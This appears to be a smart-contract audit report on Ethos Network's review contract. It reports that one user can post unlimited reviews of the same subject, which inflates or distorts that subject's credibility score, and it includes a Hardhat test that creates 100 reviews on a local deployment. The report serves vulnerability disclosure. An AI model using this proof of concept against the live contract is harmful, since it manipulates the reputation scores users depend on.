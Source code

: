 Expert Ruby Yeti

Medium

# User can submit infinite number of reviews

### Summary

Users are able to submit many reviews for the same subject, which will impact the subject's credibility score, because as stated in the [whitepaper](https://whitepaper.ethos.network/ethos-mechanisms/credibility-score#calculation): "average review rating and volume of reviews".

### Root Cause

Reviews for the same subject by the same author are permitted in [addReview()](https://github.com/sherlock-audit/2024-10-ethos-network/blob/main/ethos/packages/contracts/contracts/EthosReview.sol#L173).

### Internal pre-conditions

_No response_

### External pre-conditions

_No response_

### Attack Path

_No response_

### Impact

The user's credibility score could be impacted.

### PoC

```javascript
import { type HardhatEthersSigner } from '@nomicfoundation/hardhat-ethers/signers';
import { loadFixture } from '@nomicfoundation/hardhat-toolbox/network-helpers';
import { expect } from 'chai';
import { type ContractTransactionResponse } from 'ethers';
import { type EthosProfile, EthosReview } from './../typechain-types';
import { common } from './utils/common';
import { createDeployer, type EthosDeployer } from './utils/deployEthos';
import { type EthosUser } from './utils/ethosUser';
import { arch } from 'os';

const DEFAULT_MAX_ADDRESSES = 4;

describe('PoC', () => {
    let deployer: EthosDeployer;
    let ethosProfile: EthosProfile;
    let ethosReview: EthosReview;
    let userA: EthosUser;
    let userB: EthosUser;
    let EXPECTED_SIGNER: HardhatEthersSigner;
    let newAddress: HardhatEthersSigner;

    beforeEach(async () => {
        deployer = await loadFixture(createDeployer);
        ethosProfile = deployer.ethosProfile.contract;
        ethosReview = deployer.ethosReview.contract;
        EXPECTED_SIGNER = deployer.EXPECTED_SIGNER;
        userA = await deployer.createUser();
        userB = await deployer.createUser();
        newAddress = await deployer.newWallet();
        await setMaxAddresses(DEFAULT_MAX_ADDRESSES);
    });



    async function setMaxAddresses(maxAddresses: number): Promise<ContractTransactionResponse> {
        return await ethosProfile.connect(deployer.ADMIN).setMaxAddresses(maxAddresses);
    }

    it('should submit many reviews', async () => {
        const reviewId = await ethosReview.reviewCount()
        console.log('Reviews count: ', reviewId);
        console.log('-----------------------Create Reviews-----------------------')
        for (let i = 0; i < 100; i++) {
            await userA.review({ address: userB.signer.address });
        }
        const reviewCount = await ethosReview.reviewCount();
        console.log('Reviews count: ', reviewCount);
    });
});
```

```logs
  PoC
Reviews count:  0n
-----------------------Create Reviews-----------------------
Reviews count:  100n
```

### Mitigation

_No response_